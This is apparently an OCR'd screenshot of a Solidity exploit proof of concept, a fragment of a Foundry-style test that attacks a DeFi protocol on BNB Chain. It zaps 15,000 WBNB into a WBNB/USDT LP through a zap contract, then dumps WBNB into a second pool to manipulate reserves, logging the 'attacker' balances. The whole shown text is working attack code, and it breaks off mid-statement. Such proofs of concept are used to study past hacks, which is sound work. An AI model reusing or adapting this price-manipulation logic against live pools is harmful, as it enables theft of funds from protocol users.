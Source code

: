 │         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                        │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                         │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                            │
│             address(this)                                                                                                                                                                                                                             │
│         );                                                                                                                                                                                                                                            │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                         │
│             address(WBNBUSDTv2),                                                                                                                                                                                                                      │
│             attackerLPBalance                                                                                                                                                                                                                         │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                                │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                            │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                                │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                        │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                         │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                      │